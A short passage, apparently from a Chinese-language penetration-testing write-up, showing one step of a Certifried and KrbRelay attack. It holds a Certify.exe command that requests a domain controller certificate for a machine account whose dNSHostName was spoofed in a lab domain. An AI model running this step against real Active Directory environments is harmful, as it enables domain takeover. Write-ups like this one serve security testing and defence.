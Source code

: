 ![](/assets/posts/2022-05-19-certifried-combined-with-krbrelay-for-domain-privilege-escalation/image-20220519083402105.png)

### Machine Persistence via Certificates - PERSIST2

然后，我们通过 Certify 为 `WIN10-CLIENT1$` 账户申请 AD 证书。由于 `WIN10-CLIENT1$` 账户的 `dNSHostName` 被修改为了 DC 的 DNS 主机名，因此将欺骗 AD CS 申请到域控制器的证书，如下图所示。

```powershell
.\Certify.exe request /ca:DC01.pentest.com\pentest-DC01-CA /template:Machine /machine
```
